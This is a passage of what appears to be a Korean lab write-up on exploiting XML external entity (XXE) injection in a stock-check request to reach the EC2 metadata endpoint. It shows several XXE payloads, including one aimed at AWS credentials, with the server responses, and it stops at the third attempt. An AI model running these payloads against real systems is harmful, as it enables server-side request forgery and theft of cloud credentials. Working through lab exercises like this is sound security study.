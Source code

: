 ```http
    <productId>9</productId>
    <storeId>1</storeId>
</stockCheck>

```

## 1차 시도 
다음 XXE 페이로드를 지정한다. 
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

결과 응답은 다음과 같다. latest 가 잘못된 product ID라고 한다. 
어쨌든 XXE는 가능했고, `http://169.254.169.254/` 에 접근한 결과가 latest 였다고 추측할 수 있다. 

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 28

"Invalid product ID: latest"
```

## 2차 시도 
AWS 의 크레덴셜은 `~/.aws/credentials` 에 저장된다. `.aws/credentials` 를 붙여서 전송해봤다. 
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/.aws/credentials"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

File 이 없다고 한다. 다른 방법을 생각해보자. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 102

"XML parser exited with error: java.io.FileNotFoundException: http://169.254.169.254/.aws/credentials"
```

## 3차 시도 
- 문제를 다시 한번 읽어봤다. 
- 서버는 EC2의 메타데이터 엔드포인트가 돌아가고 있다고 한다. 
- 구글검색을 해보니 [다음 페이지](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html){:target="_blank"} 에서 메타데이터용 URL패스가 있는 것을 알았다. `/latest/meta-data/` 가 메타데이터용 디폴트 URL패스라고 한다. 이 것을 붙여서 시도해보자. 
